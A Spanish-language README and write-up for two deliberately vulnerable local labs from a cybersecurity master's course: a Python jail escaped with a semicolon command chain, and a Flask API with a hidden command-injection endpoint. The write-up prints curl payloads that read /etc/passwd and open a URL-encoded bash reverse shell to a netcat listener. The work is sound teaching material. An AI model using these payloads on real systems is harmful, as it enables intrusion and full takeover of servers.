

# 🔓 Lab Local — HTTP RCE & Python Jailbreak

<p align="center">
  
  
  
  
  
</p>

<p align="center">
  <i>Dos laboratorios locales de Hacking Ético diseñados para practicar la explotación de ejecución remota de comandos vía HTTP y la evasión de un sistema de jailbreak Python con blacklist defectuosa. Propuestos por el profesorado en el contexto del Máster en Ciberseguridad.</i>
</p>

---

> [!WARNING]
> **Aviso Legal.** Estos laboratorios son intencionalmente vulnerables y están diseñados para ejecutarse en un entorno local aislado con fines académicos. Nunca expongas estos servicios en una red pública. El autor declina cualquier responsabilidad por uso indebido.

---

## 📑 Índice

1. [Resumen Ejecutivo](#-1-resumen-ejecutivo)
2. [Entorno y Despliegue](#-2-entorno-y-despliegue)
3. [Estructura del Proyecto](#-3-estructura-del-proyecto)
4. [Writeup: Lab 2 — Python Jailbreak](#-4-writeup-lab-2--python-jailbreak)
5. [Auditoría Teórica: Lab 1 — HTTP RCE API](#-5-auditoría-teórica-lab-1--http-rce-api)

---

## 📌 1. Resumen Ejecutivo

Dos laboratorios de Python en local, dos lecciones contundentes sobre cómo un error de implementación aparentemente pequeño puede convertirse en el vector de control total de un sistema. El primero, `jailbreak.py`, es una shell interactiva con lista negra de comandos que tiene un fallo lógico estructural: evalúa únicamente el primer token del input y rompe el bucle tras él, dejando pasar el resto del comando al sistema operativo sin inspección. El segundo, `api_rce.py`, es una API Flask con un endpoint oculto que acepta un parámetro de URL y lo convierte en comando de sistema sin sanitizar nada — el clásico y letal `shell=True`. El primer laboratorio se resuelve con una evasión de blacklist en una línea. El segundo enseña por qué las herramientas de fuzzing como Gobuster no sirven de nada cuando la ruta es suficientemente arbitraria, y por qué la revisión de código fuente sigue siendo el arma más potente en una auditoría interna.

---

## 🛠️ 2. Entorno y Despliegue

```bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

Una vez instaladas las dependencias, cada laboratorio se arranca por separado:

```bash
# Lab 1 — HTTP RCE API (Puerto 5000)
python3 api_rce.py

# Lab 2 — Shell interactiva con blacklist
python3 jailbreak.py
```

---

## 📁 3. Estructura del Proyecto

```text
httprce-jailbreak/
├── imagenes/           # Capturas y evidencias de los writeups
├── api_rce.py          # Lab 1 — Servidor Flask con endpoint RCE
├── jailbreak.py        # Lab 2 — Shell interactiva con blacklist defectuosa
├── exploit_jail.sh     # Demostración de bypass alternativo por base64
├── requirements.txt    # Dependencias Python (Flask, Flask-RESTful)
└── README.md
```

---

## 📝 4. Writeup: Lab 2 — Python Jailbreak

El directorio de trabajo contiene dos scripts Python listos para ejecutar:

```
ls -lah | grep py
-rw-rw-r-- 1 kali kali  540 abr  1 12:27 api_rce.py
-rw-rw-r-- 1 kali kali  847 abr  1 12:27 jailbreak.py
```

Arranque con el `jailbreak.py`. Al ejecutarlo, recibo un prompt `>>>` que simula una terminal, pero en el momento en que pruebo `ls`, el servidor me devuelve un seco `Nope!`. La lista negra está activa. Intento varios ángulos distintos de salida — `Ctrl+C`, `more`, `less`, pipes — todos bloqueados o inútiles por distintas razones:

```
python3 jailbreak.py
>>> ls
Nope!
>>> more
more: bad usage
>>> more prueba | bash
more: cannot open prueba: No existe el fichero o el directorio
>>> less
Missing filename ("less --help" for help)
>>> echo hola | bash
bash: línea 1: hola: orden no encontrada
```

Razonamiento: al final del día, este script es un proceso Python ejecutándose en mi Kali. Si logro que ese proceso abra un subproceso `bash` real, habré escapado de la cárcel porque la nueva instancia de bash opera fuera de las restricciones del script. La pregunta es cómo forzar eso sin que la blacklist me bloquee.

La clave está en el operador `;` de bash: encadena dos comandos secuencialmente, independientemente del resultado del primero. Si precedo el comando prohibido con uno permitido como `echo`, el script evalúa el primer token (`echo`), lo ve fuera de la lista negra, lo deja pasar y, al ejecutar el comando completo con `os.system()`, el `;` hace que bash lance una segunda instancia de sí mismo completamente fuera del proceso restringido.

```
>>> echo hola; bash
hola
┌──(.venv)(kali㉿kali)-[~/Documentos/httprce-jailbreak]
└─$
```

El prompt de la cárcel desaparece. Aparece el terminal de Kali nativo. He escapado.

<p align="center">
  
</p>

> [!TIP]
> El `exploit_jail.sh` explora una variante del mismo principio: codificar el payload en base64 (`ZXhpdAo=` = `exit`) para evadir filtros que buscan strings literales. Esta técnica aparece frecuentemente en bypasses de WAFs y filtros de IDS en entornos reales.

---

## 📝 5. Auditoría Teórica: Lab 1 — HTTP RCE API

El segundo script es una API construida con Flask. Al arrancarla, confirma que sirve en `localhost:5000`:

```
python3 api_rce.py
 * Serving Flask app 'api_rce'
 * Debug mode: off
 * Running on http://127.0.0.1:5000
```

Lo primero que hago es un `curl` a la raíz para ver qué expone:

```
curl http://127.0.0.1:5000
<!doctype html>
<title>404 Not Found</title>
<h1>Not Found</h1>
```

Un `404` puro. No hay página de inicio, lo cual es coherente en una API REST. El siguiente paso natural en una auditoría de caja negra es fuzzear los endpoints con Gobuster, a ver qué asoma:

```bash
gobuster dir -u http://127.0.0.1:5000 -w /usr/share/wordlists/dirb/common.txt
```

Gobuster termina al 100% sin encontrar absolutamente nada. Y aquí está la lección más importante de este laboratorio: **no encontrar nada no significa que no haya nada**. El endpoint real de la API es `/supermegaultrasecretpath/sys/command/<cmd>` — una ruta arbitrariamente larga, inventada y sin ninguna relación con vocabulario estándar. Ningún diccionario de fuzzing la va a contener nunca. En una auditoría de caja negra pura, estaríamos ciegos.

Sin embargo, al abrir el código fuente de `api_rce.py` y leer el decorador `@api.add_resource`, la ruta completa aparece en dos segundos. Esa diferencia entre Caja Negra y Caja Blanca en auditorías de API internas es abismal. Una vez conocida la ruta, la vulnerabilidad es obvia: el servidor toma el parámetro `<cmd>` de la URL y lo ejecuta literalmente con `subprocess.run(cmd, shell=True)`, sin ningún tipo de validación ni sanitización. Eso convierte cada petición HTTP en ejecución directa de comandos Linux.

```bash
# Reconocimiento básico:
curl "http://127.0.0.1:5000/supermegaultrasecretpath/sys/command/whoami"
curl "http://127.0.0.1:5000/supermegaultrasecretpath/sys/command/cat%20/etc/passwd"
```

Para llevar la explotación al nivel máximo, el vector de **Reverse Shell** permite obtener control interactivo total del servidor. Se abre un listener en Kali con Netcat y se envía el payload de bash codificado en URL para que los caracteres especiales no rompan la petición HTTP:

```bash
# Listener en el atacante:
nc -lvnp 4444

# Payload Reverse Shell vía URL:
curl "http://127.0.0.1:5000/supermegaultrasecretpath/sys/command/bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F4444%200%3E%261"
```

La web se queda "cargando" — señal de que la conexión TCP está abierta y el proceso `bash` bloqueado esperando comandos. En el terminal con el listener, aparece una shell interactiva del servidor. Control total obtenido sobre el sistema operativo a través de una simple llamada HTTP GET.

> [!IMPORTANT]
> La vulnerabilidad central es el uso de `shell=True` en `subprocess.run()` combinado con input del usuario sin ningún tipo de validación. En producción, esto jamás debe combinarse. El principio de Secure Coding es tratar toda entrada externa como **no confiable** por defecto y validarla siempre contra una lista blanca estricta de operaciones permitidas — nunca contra una lista negra, pues siempre habrá un vector que no hayas contemplado.

---

<hr>
<p align="center">
  <i>Documentado como parte del módulo de Hacking Ético — Máster en Ciberseguridad.</i>
</p>
